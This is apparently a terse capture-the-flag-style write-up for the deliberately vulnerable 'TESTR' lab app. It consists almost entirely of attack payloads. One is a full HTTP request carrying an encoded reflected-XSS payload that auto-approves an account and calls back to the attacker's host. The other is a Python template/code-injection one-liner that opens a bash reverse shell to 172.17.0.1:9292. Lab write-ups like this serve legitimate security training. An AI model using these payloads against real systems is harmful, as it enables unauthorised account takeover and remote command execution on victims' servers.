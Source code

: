 ```yaml
---
layout: post
title:  "Writeup TESTR"
date:   2022-11-08 13:12:00 +0900
categories: security
---
```


# TESTR
[https://github.com/bmdyy/testr](https://github.com/bmdyy/testr)

# Summary
- templates/api.html
    - Reflected XSS
    - /apply
- app.py /editor
    - after auth bypass
    - Code Injection

# XSS

POST /apply HTTP/1.1
Host: 172.17.0.2:5000
Content-Length: 887
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.17.0.2:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.17.0.2:5000/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

name=wtc2&email=wtc2%40com&website=/api?q=%25%33%63%69%66%72%61%6d%65%25%32%30%73%72%63%25%33%64%25%32%32%25%32%36%25%32%33%78%36%61%25%33%62%61%76%61%73%63%72%69%70%74%25%33%61%63%6f%6e%73%74%25%32%30%66%25%32%30%25%33%64%25%32%30%6e%65%77%25%32%30%46%6f%72%6d%44%61%74%61%28%29%25%33%62%66%2e%61%70%70%65%6e%64%28%27%65%6d%61%69%6c%27%25%32%63%25%32%30%27%77%74%63%32%25%34%30%63%6f%6d%27%29%25%33%62%66%65%74%63%68%28%27%25%32%66%61%70%70%72%6f%76%65%27%25%32%63%25%37%62%6d%65%74%68%6f%64%25%33%61%25%32%30%27%50%4f%53%54%27%25%32%63%62%6f%64%79%25%33%61%25%32%30%66%25%37%64%29%2e%74%68%65%6e%28%72%65%73%25%32%30%25%33%64%25%33%65%25%32%30%25%37%62%66%65%74%63%68%28%27%68%74%74%70%25%33%61%25%32%66%25%32%66%31%37%32%2e%31%37%2e%30%2e%31%25%32%66%61%70%70%72%6f%76%65%5f%73%75%63%63%65%73%73%32%27%29%25%37%64%29%25%32%32%25%33%65&secret_phrase=secret&password=oswe&password2=oswe

## RCE

print(''.__class__.__mro__[-1].__subclasses__()[393]("bash -c 'bash -i >& /dev/tcp/172.17.0.1/9292 0>&1'", shell=True))